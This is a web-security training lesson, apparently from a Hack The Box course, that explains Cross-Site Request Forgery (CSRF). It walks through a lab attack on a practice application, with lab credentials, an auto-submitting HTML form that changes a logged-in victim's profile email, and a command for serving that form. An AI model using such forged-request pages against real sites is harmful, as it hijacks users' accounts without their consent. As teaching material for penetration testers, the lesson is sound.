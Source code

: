 # Cross-Site Request Forgery (CSRF or XSRF)

Cross-site requests are common in web applications and are used for multiple legitimate purposes.

Cross-Site Request Forgery (CSRF or XSRF) is an attack that forces an end-user to execute inadvertent actions on a web application in which they are currently authenticated. This attack is usually mounted with the help of attacker-crafted web pages that the victim must visit or interact with, leveraging the lack of anti-CSRF security mechanisms. These web pages contain malicious requests that essentially inherit the identity and privileges of the victim to perform an undesired function on the victim's behalf. CSRF attacks generally target functions that cause a state change on the server but can also be used to access sensitive data.

A successful CSRF attack can compromise end-user data and operations when it targets a regular user. If the targeted end-user is an administrative one, a CSRF attack can compromise the entire web application.

During CSRF attacks, the attacker does not need to read the server's response to the malicious cross-site request. This means that [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) cannot be considered a security mechanism against CSRF attacks.

**Reminder**: According to Mozilla, the same-origin policy is a critical security mechanism that restricts how a document or script loaded by one origin can interact with a resource from another origin. The same-origin policy will not allow an attacker to read the server's response to a malicious cross-site request.

A web application is vulnerable to CSRF attacks when:

* All the parameters required for the targeted request can be determined or guessed by the attacker
* The application's session management is solely based on HTTP cookies, which are automatically included in browser requests

To successfully exploit a CSRF vulnerability, we need:

* To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
* The victim to be logged into the application at the time when the malicious cross-site request is issued

In your web application penetration testing or bug bounty hunting endeavors, you will notice a lot of applications that feature no anti-CSRF protections or anti-CSRF protections that can be easily bypassed.

We will focus on evading anti-CSRF protections in the following sections.

***

## Cross-Site Request Forgery Example

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target`. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along. Don't forget to configure the specified vhost (`xss.htb.net`) to access the application.

Navigate to `http://xss.htb.net` and log in to the application using the credentials below:

* Email: crazygorilla983
* Password: pisces

This is an account that we created to look at the functionality of the application.

Run Burp Suite as follows.

```shell-session
$ burpsuite
```

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now, click on "Save."

You should see the below.

<figure><img src="../../../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

We notice no anti-CSRF token in the update-profile request. Let's try executing a CSRF attack against our account (Ela Stienen) that will change her profile details by simply visiting another website (while logged in to the target application).

First, create and serve the below HTML page. Save it as `notmalicious.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

If you are wondering how we ended up with the above form, please see the image below.

<figure><img src="../../../../.gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

We can serve the page above from our attacking machine as follows.

```shell-session
$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

No need for a proxy at this time, so don't make your browser go through Burp Suite. Restore the browser's original proxy settings.

While still logged in as Ela Stienen, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious.html`. You will notice that Ela Stienen's profile details will change to the ones we specified in the HTML page we are serving.

<figure><img src="../../../../.gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

Our assumption that there is no CSRF protection in the application was correct. We were able to change Ela Stienen's profile details via a cross-site request.

We can now use the malicious web page we crafted to execute CSRF attacks against other users.

Next, we will cover how we can attack applications that feature anti-CSRF mechanisms.
